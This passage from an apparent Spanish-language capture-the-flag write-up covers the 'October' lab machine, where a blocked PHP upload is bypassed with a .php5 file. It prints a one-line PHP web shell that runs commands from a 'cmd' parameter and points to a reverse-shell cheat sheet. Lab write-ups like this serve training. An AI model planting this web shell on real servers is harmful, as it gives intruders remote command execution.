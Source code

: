 Ya estamos dentro del panel de administración del sitio web. Ahora debemos de buscar alguna forma de ingresar a la máquina víctima; si intentamos crear un archivo de extensión `php`, vemos que no nos deja; por lo tanto, tenemos que validar que extensiones permite el servidor. En la parte superior izquierda vemos varias opciones, podemos ingresar a **Media** y vemos algo curioso, un archivo de extensión `php5`; si lo seleccionamos vemos unas opciones del lado derecho y si le damos en ***Click here***, nos abre el recurso `dr.php5`.

Así que podemos crearnos un archivo con extensión `php5` y subirlo al servidor:

```bash
❯ cat k4mishell.php5
───────┬───────────────────────────────────────────────────────────
       │ File: k4mishell.php5
───────┼───────────────────────────────────────────────────────────
   1   │ <?php
   2   │     echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
   3   │ ?>
```

![""](/assets/images/htb-october/october-shell.png)

Le damos en la opción ***Click here***, se nos abre otra ventana en donde se encuentra nuestro archivo php. Ahora mediante la variable `cmd` podemos ejecutar comandos a nivel de sistema.

![""](/assets/images/htb-october/october-cmd.png)

Ahora debemos entablarnos una reverse shell a nuestra máquina de atacante. Probando las reverse shell de [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), vemos que **Netcat** no nos deja, así que vamos por otras vías alternativas; como por ejemplo python. Antes de lanzar la reverse shell, vamos a validar si la máquina cuenta con python:
